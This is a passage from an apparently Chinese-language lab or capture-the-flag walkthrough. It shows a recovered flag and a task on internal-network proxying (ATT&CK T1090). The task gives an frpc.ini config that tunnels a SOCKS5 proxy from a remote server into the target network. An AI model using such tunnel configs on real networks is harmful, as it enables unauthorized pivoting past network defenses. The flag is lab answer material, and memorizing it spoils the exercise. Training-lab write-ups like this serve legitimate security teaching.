 发现flag：

![image-20220622152844983727-1655884150251876.png](img/Untitled.assets/7c6639a32216b3fd30911589870d98b1.png)

```
flag{7117-9590-F408-7857-68D5-70AA-F442-BD57}
```

查看路由信息：

![image-20220616132811812455-1655884151554558.png](img/Untitled.assets/3e6c17512282aafda9994374b5cbe2c4.png)

##### 任务10：内网代理（T1090 - 连接代理）

修改`C:\Users\Administrator\Desktop\工具\浏览代理\frp\frp_0.37.0_windows_amd64\frp_0.37.0_windows_amd64`目录下的`frpc.ini`文件为如下内容：

```
[common]
server_addr = 172.16.1.100
server_port = 7000

[ssh]
type = tcp
remote_port = 9998
plugin = socks5
```
